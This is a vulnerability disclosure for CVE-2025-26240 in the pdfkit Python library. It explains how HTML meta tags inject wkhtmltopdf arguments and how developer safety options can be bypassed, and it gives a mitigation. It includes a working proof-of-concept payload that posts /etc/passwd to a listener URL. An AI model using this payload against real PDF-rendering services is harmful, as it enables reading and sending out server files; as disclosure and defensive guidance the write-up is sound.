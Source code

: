 ﻿# **The *pdfkit* vulnerability (CVE-2025-26240)**
## **Summary**
The vulnerability in the pdfkit library is caused by parsing user-provided HTML in the `from_string` method, with no available options to mitigate the risk. The `from_string` method uses meta tags whose names start with “pdfkit-” and treats their values as command-line parameters for the `wkhtmltopdf` tool. This parsing is performed in the `_find_options_in_meta` method, located in the `pdfkit/pdfkit.py` file. While this functionality may be useful for certain use cases (such as setting the paper size), some `wkhtmltopdf` arguments pose security risks. 
## **Simple POC**
If we pass following html data into the `from_string` method we will be able to read the contents of the **/etc/passwd** file.

```html
<meta name='pdfkit---quiet' content=''>
<meta name='pdfkit---enable-local-file-access' content=''>
<meta name='pdfkit---post-file' content=''>
<meta name='pdfkit-file--a' content='/etc/passwd'>
<meta name='pdfkit-http://127.0.0.1:8080/?LFI-TEST=--' content='--cache-dir'>
<h1>LFI POC</h1>
```

There are a few constraints on the arguments that will be sent to wkhtmltopdf. The first is that the key must contain two dashes, which is why the last meta tag includes `--` in its name. The implementation of this check can be found in the `_normalize_options` method located in the `pdfkit/pdfkit.py` file.

```python
for key, value in list(options.items()):
    if '--' not in key:
        normalized_key = '--%s' % self._normalize_arg(key)
    else:
        normalized_key = self._normalize_arg(key) 
```

Due to insufficient validation, we are able to pass arguments that accept multiple values, not just key-value pairs. 

When we pass the example HTML file to the `from_string` method, we can see that the command generated and executed with the subprocess.Popen method is as follows:

`['/usr/local/bin/wkhtmltopdf', '--quiet', '--enable-local-file-access', '--post-file', 'file--a', '/etc/passwd', 'http://127.0.0.1:8080/?lfi-test=--', '--cache-dir', '-', '-']`

Resulting in following command:

`/usr/local/bin/wkhtmltopdf –quiet --enable-local-file-access --post-file file--a /etc/passwd http://127.0.0.1:8888/?lfi-test=-- --cache-dir - -`

This command sends the contents of the `/etc/passwd` file as an attachment in a POST request to `http://127.0.0.1:8888/?lfi-test=--` with the parameter `file--a`. The `--cache-dir` parameter is included solely to remove the extra dash added by the pdfkit library, ensuring that the wkhtmltopdf tool executes successfully.

When exploiting this vulnerability, we can observe that the contents of the `/etc/passwd` file are received on our Python listener.

![](./CVE-2025-26240-image-1.png)

In the same way, we can execute any JavaScript scripts by utilizing the `--script` command-line parameter, which runs the specified JavaScript code after generating the PDF, leading to SSRF and other potential vulnerabilities.
## **Bypass of pdfkit security measures**
The pdfkit library allows developers to provide an options dictionary for direct options that will be passed to `wkhtmltopdf`. The main issue is that these options can be easily bypassed due to Python’s way of handling dictionaries.

The options initialization is defined in `pdfkit/pdfkit.py` as follows:

```python
self.options = OrderedDict()
if self.source.isString():
    self.options.update(self._find_options_in_meta(url_or_file))
    self.environ = self.configuration.environ
    if options is not None:
        self.options.**update**(options)
```

The main issue is that Python preserves the order of keys when using the update method. For example, if we have the dictionary `{"a": 10, "b": 20}` and call update on it with `{"a": 15}`, the resulting dictionary will be `{"a": 15, "b": 20}`.

An attacker can always manipulate the order of command-line arguments sent to wkhtmltopdf. If a developer attempts to enforce security options such as `{"disable-javascript": "", "disable-local-file-access": ""}`, the attacker can set these options first and then override them by adding their counterparts, such as `enable-javascript` or `enable-local-file-access`. 
## **Easiest solution for developers**
The easiest solution to this vulnerability is probably to use other methods then `from_string`. For example developer can save the provided HTML to temporary file and then use `from_file` method, which doesn’t parse the meta tags. 

